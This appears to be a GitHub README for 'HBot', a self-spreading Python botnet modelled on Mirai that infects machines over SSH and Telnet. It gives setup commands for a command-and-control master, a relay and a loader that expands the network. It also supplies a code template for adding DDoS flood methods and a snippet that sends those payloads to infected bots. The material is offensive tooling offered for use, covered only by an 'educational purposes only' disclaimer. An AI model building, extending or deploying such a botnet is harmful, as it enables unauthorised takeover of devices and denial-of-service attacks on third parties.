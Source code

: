 <h1 align="center">HBot</h1>

<p align='center'>
    <b>Self spreading Botnet based on Mirai C&C Arch, spreading through SSH and Telnet protocol.<br>Modern script fullly written in python3.</b><br>
    <br>
    <img src='https://media.discordapp.net/attachments/878090550564241439/878787633621401630/unknown.png'>
</p>

----

<br><br>

> # Warning.

* ***This project was made for educational purposes only! I take no responsibility for anything you do with this program.***
* ***If you have any suggestions, problems, open a problem (if it is an error, you must be sure to look if you can solve it with [Google](https://giybf.com)!)***

<br>

> # Requirements.

* A **Brain**, *yes skiddie, you need to use your brain, but d'ont worry because [Google](https://giybf.com) is your best friend !*
* A [MongoDB](https://mongodb.com) account, you must create an **cluster** with **database**, show [tutorial](https://docs.atlas.mongodb.com/getting-started/).
* VPS with __Debian__ based distribution.
* __2__ Open port. Default: **8080**, **1337**
* Time..

<br>

> # How to setup.

* *Change the permissions of the scripts with the chmod command.*
```sh
chmod +x ./script/*.sh
```

* *Run installation script.*
```sh
./Install.sh
```

* *Start C&C Master server.*
```sh
./RunMaster.sh
```

* *Start Relay server.*
* **Note**: If you have more than one VPS, you can run relay on other server.
```sh
./RunMaster.sh
```

* *When you have enough new bots, you can expand your network by starting the loader.*
```sh
./Loader.sh
```

<br>

> # Custom payload.

***If you whant to share your methods, just create pull requests <3***

1. Create your method with the template (*#1*)
2. You need to add your method in class `Zombie` (**cnc.py** / *#2*)


- #1:
```py
import socket, threading, time

def method_name(ip: str, timeout: str, thread: str):
    def flood(ip: str, port: int, timeout: int):
        start_time = int(time.time())

        while int(time.time()) - start_time < timeout:
            # write method code here
            # Exemple: https://github.com/Its-Vichy/HBot/blob/main/src/payload/http_flood.py

    for _ in range(int(thread)):
        threading.Thread(target= flood, args=(ip, int(port), int(timeout))).start()

method_name('!ip!', '!port!', '!time!')
```

- #2:
```py
def ddos_payload(self, ip: str, port: str, timeout: str, type: str):
    if type == 'http':
        payload = self.parse_method('./payload/http_flood.py', ip, port, timeout)
    
    if type == 'your method name without space lmao':
        payload = self.parse_method('./payload/your_method_file.py', ip, port, timeout)
        
    self.send(f'run|{payload}')
```
 
<br>

> # How is working.

* **Loader**: soon..
* **Relay**: soon..
* **C&C**: soon..

<br>

> # Support me.

* ⚠️ If this repository was empty, its because the project stay in **developpement**.
* Thanks for looking at this repository, if you like to press the ⭐ button!
* Made with 💖 by [Vichy](https://github.com/Its-Vichy).
* RCΛ Love u.

<p align="center"> 
    <b>Informations</b><br>
    <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/Its-Vichy/HBot?style=social">
    <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/Its-Vichy/HBot">
    <img alt="GitHub last commit" src="https://img.shields.io/github/last-commit/Its-Vichy/HBot">
    <img alt="GitHub" src="https://img.shields.io/github/license/Its-Vichy/HBot">
    <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/Its-Vichy/HBot?style=social">
</p>
